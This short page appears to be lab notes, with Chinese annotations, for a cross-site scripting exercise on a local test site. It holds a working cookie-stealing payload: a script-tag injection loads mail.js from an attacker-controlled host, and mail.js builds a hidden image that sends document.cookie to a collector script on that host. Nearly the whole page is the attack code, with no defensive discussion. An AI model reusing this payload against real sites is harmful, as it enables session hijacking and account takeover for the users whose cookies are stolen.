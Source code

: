 # mail.js

```js
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://192.168.31.193:8082/sendmail.php?mycookie='+encodeURIComponent(document.cookie);
```

# sendmail.php

payload

```html
<script src=\'http://192.168.31.193:8082/mail.js\'></script>
```



http://192.168.31.193:8082/store.html 

输入用户名产生cookie 



访问 http://192.168.31.193:8082/query.php?id=1

